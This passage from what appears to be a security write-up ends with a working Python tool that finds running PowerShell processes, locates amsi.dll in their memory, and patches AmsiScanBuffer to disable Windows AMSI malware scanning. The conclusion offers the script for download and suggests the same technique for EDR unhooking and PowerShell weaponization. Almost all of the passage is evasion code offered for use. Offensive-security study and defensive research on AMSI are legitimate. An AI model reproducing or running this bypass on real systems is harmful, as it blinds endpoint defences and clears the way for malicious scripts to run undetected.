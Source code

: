 ```python
                    ('modBaseAddr', c_size_t) ,
                    ('modBaseSize', c_ulong) ,
                    ('hModule', c_void_p) ,
                    ('szModule', c_char * (MAX_MODULE_NAME32+1)),
                    ('szExePath', c_char * MAX_PATH)]

    me32 = MODULEENTRY32()
    me32.dwSize = sizeof(MODULEENTRY32)
    snapshotHandle = KERNEL32.CreateToolhelp32Snapshot(TH32CS_SNAPMODULE, pid)
    ret = KERNEL32.Module32First(snapshotHandle, pointer(me32))
    while ret:
        if me32.szModule == b'amsi.dll':
            print(f'[+] Found base address of {me32.szModule.decode()}: {hex(me32.modBaseAddr)}')
            KERNEL32.CloseHandle(snapshotHandle)
            return getAmsiScanBufferAddress(handle, me32.modBaseAddr)
        else:
            ret = KERNEL32.Module32Next(snapshotHandle , pointer(me32))


for pid in getPowershellPids():
    process_handle = KERNEL32.OpenProcess(PROCESS_ACCESS, False, pid)
    if not process_handle:
        continue
    print(f'[+] Got process handle of PID powershell at {pid}: {hex(process_handle)}')
    print(f'[+] Trying to find AmsiScanBuffer in {pid} process memory...')
    amsiDllBaseAddress = getAmsiDllBaseAddress(process_handle, pid)
    if not amsiDllBaseAddress:
        print(f'[-] Error finding amsiDllBaseAddress in {pid}.')
        print(f'[-] Error: {KERNEL32.GetLastError()}')
        sys.exit(1)
    else:
        print(f'[+] Trying to patch AmsiScanBuffer found at {hex(amsiDllBaseAddress)}')
        if not patchAmsiScanBuffer(process_handle, amsiDllBaseAddress):
            print(f'[-] Error patching AmsiScanBuffer in {pid}.')
            print(f'[-] Error: {KERNEL32.GetLastError()}')
            sys.exit(1)
        else:
            print(f'[+] Success patching AmsiScanBuffer in PID {pid}')
    KERNEL32.CloseHandle(process_handle)
    print('')
```

You can also download it from [here](./amsibypass.py)

## Conclusion

I hope you liked the journey of creating this tool.
This technique can be used in other evasion tasks,
such EDR API unhooking.

`PowerShell` weaponization is not death. As you
could see, `AMSI` can be easily bypassed using a
whole different and often unbelievable ways.
